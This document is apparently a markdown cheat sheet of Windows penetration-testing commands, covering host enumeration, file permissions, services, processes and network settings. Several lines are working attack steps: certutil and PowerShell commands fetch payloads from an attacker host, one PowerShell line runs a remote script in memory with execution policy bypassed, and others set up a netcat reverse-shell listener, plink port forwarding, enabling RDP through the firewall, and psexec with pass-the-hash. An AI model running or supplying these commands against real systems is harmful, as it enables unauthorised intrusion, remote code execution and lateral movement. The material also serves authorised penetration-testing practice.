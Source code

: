 ```yaml
---
title: Windows Commands 
---
```


## Reverse Shell

https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

nc -lvp 4444

## Windows Commands

Find installed patches, architecture, OS version
```cmd
systeminfo
```
Machine name
```cmd
hostname
```
What is my username?
```cmd
whoami
```
What users/localgroups are on the machine?
```cmd
net users
net localgroups
```
More info about a specific user. Check if user has privileges
```cmd
net user <user1>
```
User privilege
```cmd
whoami /priv
```
Disk Drive
```cmd
wmic logicaldisk get caption,description,providername`
```
Download file in the target machine
```cmd
certutil -urlcache -f https://[attackerIp]/payload.exe payload.exe
```
File and directory permission
```cmd
cacls /Desktop/test.txt
accesschk.exe -qwsu "<user>" "<path>"
accesschk.exe -qwsu "Users" *
```
wmic service filter
```cmd
wmic service where "name= 'OpenSSHd'" get name,pathname,status
```
List of Service
```cmd
wmic service get Caption,StartName,State,pathname
```
List of Process
```cmd
wmic process get ProcessID,ExecutablePath
```
Network
```cmd
ipconfig /all
route print
arp -A
```
Port forward & connect form linux to SMB 
```cmd
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```
```cmd
winexe -U [user]%[password] //[IP] "cmd.exe"
```
> Note: in ssh_config uncomment PermitRootLogin yes

Firewall Configuration
```cmd
netsh firewall show state
netsh firewall show config
```
Evarioment Variable
```cmd
set
```
How well patched is the system?
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
Loading Powershell scripts directly in memory
```cmd
powershell.exe -ep Bypass -c "IEX ((new-object net.webclient).downloadstring('http://10.0.1.14:80/shell.ps1'))"
```
Downlaod file with Powershell 
```cmd
powershell.exe -ep Bypass -c iex ((New-Object System.Net.WebClient).DownloadFile("https://attacker/payload.exe", "C:\Users\user1\payload.exe"))
```
Information about process
```cmd
tasklist /v
```
Run a command as another user
```cmd
runas /user:<localmachinename>\administrator cmd
```
Process info
```cmd
wmic process get Caption,Commandline,Processid
```
Service info
```cmd
wmic service get name,status,startname,pathname
```
Process Owner 
```cmd
tasklist /V /FI "IMAGENAME eq explorer.exe"
wmic process where "name='taskeng.exe'" call GetOwner
```
Process List 
```cmd
powershell.exe Get-Process  | Select-Object Id,Name,Path
```
Current Connection
```cmd
netstat -lpno
```
Start and stop a service
```cmd
net start/stop servicename
```
Installed applications
```cmd
psinfo.exe -s
```
UAC is enable?
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Content of a file
```cmd
more file.txt
```
RDP from Kali
```cmd
rdesktop -u user -p password <IP> -g 95% 
```
Enable rdp
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
Psexec

Password
```cmd
python3 psexec.py user:password@<ip>
```
```cmd
python3 psexec.py -hashes LMHASH:NTHASH user@<ip>
```